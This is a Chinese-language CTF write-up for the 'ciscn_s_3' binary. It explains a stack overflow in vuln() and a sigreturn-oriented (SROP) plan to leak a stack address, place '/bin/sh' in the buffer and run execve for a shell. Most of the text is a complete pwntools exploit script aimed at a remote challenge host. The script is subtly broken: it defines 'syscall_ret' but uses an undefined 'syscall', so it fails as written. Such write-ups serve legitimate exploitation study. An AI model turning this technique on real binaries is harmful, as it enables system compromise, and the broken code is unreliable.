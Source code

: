 vuln的栈帧大小为0，但在rsp-10h的位置读入了通过read系统调用读入了400h的数据，很明显有栈溢出漏洞
最后没有发现pop，所以溢出点为16，后面紧跟着返回地址
同时ret回vuln后，vuln会执行push ebp指令，从而恢复栈帧，所以可以反复溢出

### 利用思路
首先检查这个程序的字符串，发现是没有"/bin/sh"的，所以要想办法泄露栈上的地址，通过偏移得到buf的地址，在buf这儿写上"/bin/sh\x00"
之后便可以通过sigreturn系统调用操控寄存器，来执行execve系统调用获取shell（其实这里可以使用csu，但不如sigreturn方便）

### exp
```python
from pwn import *

#p = process('./ciscn_s_3')
p = remote("node5.buuoj.cn",28047)

context.arch = 'amd64'
#context.log_level = 'debug'
#gdb.attach(p)

mov_rax_15 = 0x4004DA
mov_addr = 0x400580
pop_addr = 0x40059A
syscall_ret = 0x400517
vuln = 0x4004ed
ret = 0x400538
pop_rdi = 0x4005a3

payload1 = b'A'*16
payload1+= p64(vuln)
p.send(payload1)

p.recv(32)
leak=u64(p.recv(8))
print(hex(leak))
buf = leak - 0x118  # 通过泄露出的栈上的地址(某个ebp)调试出与buf的偏移，计算buf的地址
                    # 我们后面在buf这写上b'/bin/sh\x00'

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = buf
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall

payload2 = b'/bin/sh\x00'.ljust(16,b'A') + p64(mov_rax_15) + p64(syscall) + bytes(sigframe)
p.sendline(payload2)

p.interactive()
```

